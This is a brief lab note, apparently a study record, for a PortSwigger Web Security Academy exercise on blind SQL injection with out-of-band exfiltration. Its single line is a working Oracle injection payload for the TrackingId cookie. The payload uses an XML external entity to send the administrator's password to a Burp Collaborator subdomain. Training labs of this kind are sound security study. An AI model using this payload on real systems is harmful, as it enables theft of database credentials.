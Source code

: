 https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-using-out-of-band-oast-techniques/sql-injection/blind/lab-out-of-band-data-exfiltration

![[Pasted image 20250627223859.png]]
1. `TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`
